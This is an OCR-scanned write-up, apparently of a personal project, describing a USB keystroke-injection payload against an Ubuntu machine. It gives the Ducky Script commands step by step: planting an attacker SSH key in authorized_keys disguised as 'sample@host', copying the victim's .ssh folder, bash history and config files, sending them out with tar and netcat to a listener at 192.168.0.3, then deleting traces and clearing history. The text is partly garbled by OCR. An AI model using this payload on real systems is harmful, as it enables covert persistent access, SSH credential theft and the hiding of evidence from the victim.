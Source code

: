 
I made sure that all the commands will be accessible no matter where you may start the bash shell from. So, you could start in a different directory and the commands will still run. I will first open a text editor pre-installed on all Ubuntu distributions to make a shell script to enter all my commands into and have the first command delete the shell script immediately so there is no trace. This lets me remove the USB faster and not have to wait for slow transfer speeds. We need to create the “authorized_keys” file in the.ssh directory as this will allow us to add in our public key for my attacking machine. This will enable me to access the target machine at any time as if I ssh in, it will match my attacking private key with an authorized public key.

STRING cd && nano sample.sh

ENTER

STRING rm \~/sample.sh

ENTER

STRING touch\~/.ssh/authorized_keys

ENTER

STRING echo ssh-ed25519 AAAAC3NzaC11Z

ENTER

At this point, our first part of the attack is complete. I would also note that the ssh key that I put in the authorized_keys has the user account “sample” and the host name “host” so that even if someone does check the authorized keys,they wil think it is just a default/ sample ssh key and may disregard it, adding a layer of social engineering.


| STRING echo ssh-ed25519 AAAAC3NzaC11ZD1 zUdBRdW3WnocUz+5FON8We9UITO sample@host |  WNTE5AAAAIDJz+uLagY7SoQbW/&gt;&gt;\~/.ssh/authorized_keys |
| -- | -- |
| ENTER  | ENTER  |


The second component of the attack is a bit different, here first think we do is make a copy of their.ssh directory in their root directory called something innocuous like "temp_dir” in this case so that if there is an interruption or failure at any point,it will not look too suspicious having the temp_dir directory in the root. Not only am I also going to steal them.ssh folder, I will take their bash history so I can see where they may frequently ssh into and their gitconfig to see if there are any alia ses they may have set up in the configuration. I'll also take their .bashrc to see if there are any ssh aliases stored in there at all. You also may notice the whoami and ip a. This is to obtain the user account and the name of the ip address of where the system is located.


![](https://web-api.textin.com/ocr_image/external/18bb10dbb8cb3ca6.jpg)

We will then use netcat to send the .ssh directory over to my receiver and promptly delete the temp_dir to hide any traces. To try hide my traces even further,I will clear the local history of the session and delete the local history of the terminal so that there is no trace of any tampering whatsoever.

STRING tar cf - \~/temp_dir | nc 192.168.0.3 30000

ENTER

STRING rm -rf \~/temp dir

